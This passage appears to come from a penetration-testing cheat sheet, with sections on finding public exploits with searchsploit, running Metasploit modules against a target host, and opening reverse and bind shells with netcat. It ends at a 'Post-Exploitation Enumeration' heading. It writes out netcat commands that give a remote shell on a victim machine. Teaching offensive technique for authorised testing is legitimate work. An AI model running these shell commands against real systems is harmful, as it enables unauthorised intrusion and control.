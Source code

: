 Tools and Commands:

    searchsploit: Search for public exploits related to specific vulnerabilities.

    bash

searchsploit <vulnerability>

Exploit Frameworks:

    Metasploit: Use to automate exploitation.

    bash

        msfconsole
        search <exploit_name>
        use <exploit_module>
        set RHOST 192.x.x.x
        run

Methodology and Tactics:
The methodology here involves identifying known vulnerabilities in the target's software stack using tools like searchsploit. Once a vulnerability is identified, exploitation frameworks like Metasploit are used to automate the exploitation process. The tactic is to leverage publicly available exploits that match the identified vulnerabilities, focusing on gaining initial access or escalating privileges within the target environment.
8. Reverse and Bind Shells

Command Examples:

    Reverse Shell:
        Attack Box:

        bash

nc -lvp 4444

Victim Machine:

bash

    nc 192.x.x.x 4444 -e /bin/sh

Bind Shell:

    Target Machine:

    bash

nc -lvp 4444 -e /bin/sh

Attack Box:

bash

        nc 192.x.x.x 4444

Methodology and Tactics:
Reverse and bind shells are methods of establishing command-line access to a compromised system. In a reverse shell, the victim machine connects back to the attacker's machine, which is useful when the victim is behind a firewall. In a bind shell, the victim machine opens a listening port that the attacker connects to, which can be useful in situations where the attacker's machine is restricted. The tactic is to maintain control over the compromised system and to facilitate further exploitation or data exfiltration.
9. Post-Exploitation Enumeration
